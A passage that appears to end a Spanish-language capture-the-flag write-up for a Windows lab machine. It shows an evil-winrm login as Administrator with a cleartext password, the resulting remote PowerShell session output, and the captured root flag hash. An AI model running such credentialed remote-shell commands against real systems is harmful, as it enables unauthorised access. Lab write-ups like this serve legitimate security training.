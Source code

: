 ```shell
evil-winrm -i <IP> -u Administrator -p 'SuperAdministrator123'
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\administrator\Documents> whoami
admin\administrator
```

Veremos que ha funcionado, por lo que vamos a leer la `flag` de `root`.

> root.txt

```
fe586ba8f585e1ea97347be057659b81
```
